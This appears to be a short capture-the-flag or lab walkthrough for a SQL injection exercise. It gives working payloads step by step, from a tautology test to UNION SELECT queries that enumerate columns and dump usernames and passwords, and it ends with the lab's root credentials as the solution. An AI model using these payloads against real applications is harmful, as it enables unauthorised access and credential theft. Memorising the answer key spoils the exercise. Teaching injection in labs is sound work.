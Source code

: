 # Dazala Injection Walk Through

## Step 1: Test for Input Type
Begin by testing the input type to understand how the application processes user
```sql
1 OR 1=1--
```


## Step 2: Check the Number of Output Fields
Use the following query:
```sql
1' UNION SELECT null, null, null FROM information_schema.tables;-- -
```
This query checks the number of output fields by trying different numbers of null values.

> You could also find the number of output fields by using the following query:
> ```sql
> 1' UNION SELECT null, null, null, null FROM information_schema.tables;-- -
> ```
>> Using the query above, you can determine the number of output fields by increasing the number of null values. So just remove or add null values to find the correct number of output fields.

### Step 3: Find Table Names
Use the following query to retrieve table names:
```sql
1' UNION SELECT column_name, null, null FROM information_schema.columns WHERE table_name='users';-- -
```
This query retrieves column names from the users table.

### Step 4: Retrieve Name and Password Columns from a Known Table
Use the following query:

```sql
1' UNION SELECT username, password, null FROM users;-- -
```
This query retrieves the username and password columns from the users table.
The table displays the root’s password, which can be used to sign in.



## Solution

Username: root
Password: secure123